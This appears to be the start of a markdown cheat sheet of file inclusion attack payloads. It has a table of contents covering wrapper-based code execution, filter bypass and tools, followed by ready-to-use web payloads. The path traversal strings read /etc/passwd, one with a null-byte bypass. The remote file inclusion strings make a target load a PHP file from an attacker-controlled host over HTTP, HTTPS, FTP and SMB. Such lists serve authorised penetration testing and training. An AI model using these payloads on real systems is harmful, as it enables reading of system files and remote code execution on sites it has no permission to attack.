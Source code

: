 # File Inclusions

- [File Inclusions](#file-inclusions)
  - [Basic Attacks](#basic-attacks)
    - [Basic LFI / Path Traversal](#basic-lfi--path-traversal)
    - [Basic RFI](#basic-rfi)
  - [Wrapper](#wrapper)
    - [Wrapper LFI / Path Traversal](#wrapper-lfi--path-traversal)
    - [Wrapper RCE](#wrapper-rce)
      - [Data text](#data-text)
      - [EXPECT](#expect)
      - [INPUT](#input)
      - [DATA](#data)
      - [Zip Upload](#zip-upload)
      - [Phar Upload](#phar-upload)
  - [Interesting proc entries to include](#interesting-proc-entries-to-include)
    - [Target process PID](#target-process-pid)
      - [PID fuffing](#pid-fuffing)
      - [File path wordlists](#file-path-wordlists)
  - [Filter bypass](#filter-bypass)
  - [Tool](#tool)
    - [FIMAP](#fimap)
    - [FUFF](#fuff)
  - [Sources](#sources)

## Basic Attacks

### Basic LFI / Path Traversal

```url
?page=/etc/passwd
?page=../../../../../../etc/passwd
?page=../../../../../../etc/passwd%00
```

### Basic RFI

HTTP/S:

```url
?page=http://R_IP_ADDRESS/file.php 
?page=https://R_IP_ADDRESS/file.php 
```

FTP:

```url
?page=ftp://R_IP_ADDRESS/file.php
```

SMB:

```url
?page=\\R_IP_ADDRESS\file.php
```
